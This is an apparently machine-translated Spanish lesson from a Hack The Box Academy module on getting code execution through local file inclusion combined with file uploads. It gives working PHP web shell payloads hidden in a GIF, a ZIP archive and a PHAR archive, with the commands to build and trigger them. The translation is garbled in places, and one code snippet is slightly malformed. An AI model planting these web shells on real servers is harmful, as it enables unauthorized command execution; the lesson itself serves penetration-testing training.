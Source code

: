# LFI and File Uploads

Las funcionalidades de carga de archivos son ubicuas en la mayoría de las aplicaciones web modernas, ya que los usuarios generalmente necesitan configurar su perfil y uso de la aplicación web cargando sus datos. Para los atacantes, la capacidad de almacenar archivos en el servidor de back-end puede extender la explotación de muchas vulnerabilidades, como una vulnerabilidad de inclusión de archivos.

El[Ataques de carga de archivos](https://academy.hackthebox.com/module/details/136)El módulo cubre diferentes técnicas sobre cómo explotar los formularios y funcionalidades de carga de archivos. Sin embargo, para el ataque que vamos a discutir en esta sección, no requerimos que el formulario de carga de archivos sea vulnerable, sino que simplemente nos permite cargar archivos. Si la función vulnerable tiene código`Execute`Capacidades, entonces el código dentro del archivo que cargamos se ejecutará si lo incluimos, independientemente de la extensión del archivo o el tipo de archivo. Por ejemplo, podemos cargar un archivo de imagen (por ejemplo,`image.jpg`), y almacene un código de shell web PHP dentro de él 'en lugar de datos de imagen', y si lo incluimos a través de la vulnerabilidad de LFI, el código PHP se ejecutará y tendremos una ejecución de código remoto.

Como se menciona en la primera sección, las siguientes son las funciones que permiten ejecutar código con inclusión de archivos, cualquiera de las cuales funcionaría con los ataques de esta sección:

| **Función** | **Leer contenido** | **Ejecutar** | **URL remota** |
| --- | --- | --- | --- |
| **Php** |  |  |  |
| `include()`/`include_once()` | ✅ | ✅ | ✅ |
| `require()`/`require_once()` | ✅ | ✅ | ❌ |
| **Nodejs** |  |  |  |
| `res.render()` | ✅ | ✅ | ❌ |
| **Java** |  |  |  |
| `import` | ✅ | ✅ | ✅ |
| **.NETO** |  |  |  |
| `include` | ✅ | ✅ | ✅ |

---

# **Carga de imágenes**

La carga de imágenes es muy común en la mayoría de las aplicaciones web modernas, ya que la carga de imágenes se considera ampliamente como segura si la función de carga está codificada de forma segura. Sin embargo, como se discutió anteriormente, la vulnerabilidad, en este caso, no está en el formulario de carga de archivo sino en la funcionalidad de inclusión de archivos.

### **Crafting Malicioso Imagen**

Nuestro primer paso es crear una imagen maliciosa que contenga un código de shell web PHP que todavía se ve y funcione como una imagen. Entonces, usaremos una extensión de imagen permitida en nuestro nombre de archivo (por ejemplo,`shell.gif`), y también debe incluir los bytes mágicos de imagen al comienzo del contenido del archivo (por ejemplo,`GIF8`), solo en caso de que el formulario de carga se verifique tanto para el tipo de extensión como de contenido. Podemos hacerlo de la siguiente manera:

LFI y cargas de archivo

```
xnoxos@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

Este archivo por sí solo es completamente inofensivo y no afectaría las aplicaciones web normales en lo más mínimo. Sin embargo, si lo combinamos con una vulnerabilidad de LFI, entonces podemos alcanzar la ejecución de código remoto.

**Nota:**Estamos usando un`GIF`Imagen en este caso, ya que sus bytes mágicos se escriben fácilmente, ya que son caracteres ASCII, mientras que otras extensiones tienen bytes mágicos en binario que necesitaríamos codificar. Sin embargo, este ataque funcionaría con cualquier imagen o tipo de archivo permitido. El[Ataques de carga de archivos](https://academy.hackthebox.com/module/details/136)El módulo se profundiza más para los ataques de tipo de archivo, y la misma lógica se puede aplicar aquí.

Ahora, necesitamos cargar nuestro archivo de imagen maliciosa. Para hacerlo, podemos ir al`Profile Settings`Página y haga clic en la imagen Avatar para seleccionar nuestra imagen, y luego haga clic en Cargar y nuestra imagen debe cargarse con éxito:

![](https://academy.hackthebox.com/storage/modules/23/lfi_upload_gif.jpg)

### **Ruta de archivo cargada**

Una vez que hemos cargado nuestro archivo, todo lo que necesitamos hacer es incluirlo a través de la vulnerabilidad de LFI. Para incluir el archivo cargado, necesitamos conocer la ruta a nuestro archivo cargado. En la mayoría de los casos, especialmente con las imágenes, tendríamos acceso a nuestro archivo cargado y podemos obtener su ruta de su URL. En nuestro caso, si inspeccionamos el código fuente después de cargar la imagen, podemos obtener su URL:

Código:html

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

**Nota:**Como podemos ver, podemos usar `/perfil_images/shell.gif` para la ruta del archivo. Si no sabemos dónde se carga el archivo, entonces podemos luchar para un directorio de carga y luego Fuzz para nuestro archivo cargado, aunque esto no siempre funciona, ya que algunas aplicaciones web ocultan correctamente los archivos cargados.

Con la ruta de archivo cargada en cuestión, todo lo que necesitamos hacer es incluir el archivo cargado en la función vulnerable LFI, y el código PHP debe ejecutarse, de la siguiente manera:

![](https://academy.hackthebox.com/storage/modules/23/lfi_include_uploaded_gif.jpg)

Como podemos ver, incluimos nuestro archivo y ejecutamos con éxito el`id`dominio.

**Nota:**Para incluir a nuestro archivo cargado, utilizamos`./profile_images/`Como en este caso, la vulnerabilidad de LFI no prefijo ningún director de director antes de nuestra entrada. En caso de que prefijara un directorio antes de nuestra entrada, simplemente necesitamos`../`Fuera de ese directorio y luego use nuestra ruta de URL, como aprendimos en secciones anteriores.

---

# **ZIP SUPPACIÓN**

Como se mencionó anteriormente, la técnica anterior es muy confiable y debería funcionar en la mayoría de los casos y con la mayoría de los marcos web, siempre que la función vulnerable permita la ejecución del código. Hay un par de otras técnicas solo PHP que utilizan envoltorios PHP para lograr el mismo objetivo. Estas técnicas pueden ser útiles en algunos casos específicos en los que la técnica anterior no funciona.

Podemos utilizar el[cremallera](https://www.php.net/manual/en/wrappers.compression.php)Envoltura para ejecutar el código PHP. Sin embargo, este envoltorio no está habilitado de forma predeterminada, por lo que este método puede no siempre funcionar. Para hacerlo, podemos comenzar creando un script de shell de web php y encerrarlo en un archivo zip (llamado`shell.jpg`), como sigue:

LFI y cargas de archivo

```
xnoxos@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

**Nota:**A pesar de que nombramos nuestro archivo zip como (shell.jpg), algunos formularios de carga aún pueden detectar nuestro archivo como un archivo ZIP a través de pruebas de tipo de contenido y no permitir su carga, por lo que este ataque tiene una mayor probabilidad de trabajar si se permite la carga de archivos zip.

Una vez que subimos el`shell.jpg`Archivo, podemos incluirlo con el`zip`envoltura como (`zip://shell.jpg`), y luego consulte cualquier archivo dentro de él con`#shell.php`(URL codificada). Finalmente, podemos ejecutar comandos como siempre lo hacemos con`&cmd=id`, como sigue:

![](https://academy.hackthebox.com/storage/modules/23/data_wrapper_id.png)

Como podemos ver, este método también funciona en la ejecución de comandos a través de scripts PHP con cremallera.

**Nota:**Agregamos el directorio de carga (`./profile_images/`) antes del nombre del archivo, como la página vulnerable (`index.php`) está en el directorio principal.

---

# **PHAR SUBPACIÓN**

Finalmente, podemos usar el`phar://`envoltura para lograr un resultado similar. Para hacerlo, primero escribiremos el siguiente script PHP en un`shell.php`archivo:

Código:php

```php
<?php$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();

```

Este script se puede compilar en un`phar`Archivo que cuando se llame escribiría un shell web a un`shell.txt`subcilio, con el que podemos interactuar. Podemos compilarlo en un`phar`Archivo y renombrarlo a`shell.jpg`como sigue:

LFI y cargas de archivo

```
xnoxos@htb[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Ahora, deberíamos tener un archivo PHAR llamado`shell.jpg`. Una vez que la subimos a la aplicación web, simplemente podemos llamarlo con`phar://`y proporcionar su ruta de URL y luego especifique el subcresión PHAR con`/shell.txt`(URL codificada) Para obtener la salida del comando que especificamos (`&cmd=id`), como sigue:

![](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

Como podemos ver, el`id`El comando fue ejecutado con éxito. Ambos`zip`y`phar`Los métodos de envoltura deben considerarse como métodos alternativos en caso de que el primer método no funcionara, ya que el primer método que discutimos es el más confiable entre los tres.

**Nota:**Vale la pena señalar otro ataque (obsoleto) LFI/Subloads, que ocurre si las cargas de archivo están habilitados en las configuraciones de PHP y las`phpinfo()`La página está de alguna manera expuesta a nosotros. Sin embargo, este ataque no es muy común, ya que tiene requisitos muy específicos para que funcione (LFI + Subida habilitado + Phpinfo () expuesto ()). Si está interesado en saber más al respecto, puede consultar[Este enlace](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo).